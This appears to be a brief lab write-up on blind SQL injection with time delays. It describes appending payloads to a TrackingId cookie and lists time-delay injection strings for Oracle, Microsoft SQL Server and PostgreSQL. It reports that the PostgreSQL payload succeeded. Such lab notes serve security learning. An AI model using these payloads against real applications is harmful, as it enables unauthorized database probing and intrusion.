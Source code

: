 # Lab: Blind SQL injection with time delays

Intercept a page and find the TrackingId cookie.

Try several queries for different DBs, appending to the end of the cookie before the `;`

Oracle: `'||dbms_pipe.receive_message(('a'),10)--`
Microsoft: `'+WAITFOR DELAY '0:0:10'--`
PostgreSQL: `'||pg_sleep(10)--`

PostgreSQL works, indicating the database type and proving the vulnerability exists.